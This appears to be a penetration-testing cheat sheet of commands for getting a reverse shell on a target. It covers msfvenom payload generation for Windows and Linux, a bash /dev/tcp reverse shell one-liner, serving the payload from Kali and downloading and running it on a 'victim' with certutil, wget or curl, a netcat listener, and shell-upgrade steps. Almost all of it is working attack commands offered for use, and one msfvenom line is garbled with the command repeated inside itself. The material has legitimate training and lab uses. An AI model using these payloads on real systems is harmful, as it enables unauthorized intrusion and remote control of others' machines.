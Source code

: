 
## Generate shell 
### with MSFvenom
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
```
# Basic Windows shell
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe
msfvenom -p msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe

# Basic Linux shell
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f elf > shell.elf
```
### Simple bash reverse shell
Save it as shell.sh
```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/4445 0>&1
```
Oneliner for webshells
```
bash -c "bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/4445 0>&1"
```

## Transfer the shell to the victim host
Assuming we have a basic webshell
```
# On Kali
python -m http.server 8081

# On victim
  # Windows
  certutil.exe -urlcache -split -f http://<KALI_IP>:8081/shell.exe shell.exe

  # Linux
  wget http://<KALI_IP>:8081/shell.elf
  ## or
  curl --output shell.elf http://<KALI_IP>:8081/shell.elf

  chmod +x shell.elf
  ./shell.elf

```

## Setup a netcat listener on Kali
```
nc -nlvp 4445
```

## Upgrade shell
When shell works, but does not support all features
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
<CTRL+Z>
stty -echo raw
fg
stty rows 41 columns 166
```
OR
```
script /dev/null -c bash
# Ctrl + z
stty -raw echo; fg
# Enter (Return) x2
```
